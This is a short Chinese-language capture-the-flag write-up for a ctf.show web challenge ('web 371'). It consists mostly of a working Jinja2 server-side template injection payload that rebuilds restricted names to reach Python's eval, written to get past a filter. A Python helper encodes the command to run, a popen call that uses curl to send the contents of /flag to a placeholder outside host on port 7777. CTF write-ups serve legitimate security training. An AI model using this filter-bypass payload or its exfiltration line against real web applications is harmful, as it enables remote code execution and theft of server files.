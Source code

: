 ### [web 371](#toc_web-371)

print 被过滤，这里的话我们用反弹 shell 来做

```bash
http://c8f74fd3-a05a-477c-bb97-10325b9ce77d.chall.ctf.show?name=
{% set c=(t|count)%}
{% set cc=(dict(e=a)|join|count)%}
{% set ccc=(dict(ee=a)|join|count)%}
{% set cccc=(dict(eee=a)|join|count)%}
{% set ccccc=(dict(eeee=a)|join|count)%}
{% set cccccc=(dict(eeeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set ccccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
{% set cccccccccccc=(dict(eeeeeeeeeee=a)|join|count)%}
{% set coun=(ccc~ccccc)|int%}
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=
%}
{%if x.eval(cmd)%}
abc
{%endif%}
```

cmd 内的内容由以下脚本生成

```bash
def aaa(t):
    t='('+(int(t[:-1:])+1)*'c'+'~'+(int(t[-1])+1)*'c'+')|int'
    return t
s='__import__("os").popen("curl http://xxx:7777?p=`cat /flag`").read()'
def ccchr(s):
    t=''
    for i in range(len(s)):
        if i<len(s)-1:
            t+='chr('+aaa(str(ord(s[i])))+')%2b'
        else:
            t+='chr('+aaa(str(ord(s[i])))+')'
    return t
print(ccchr(s))
```
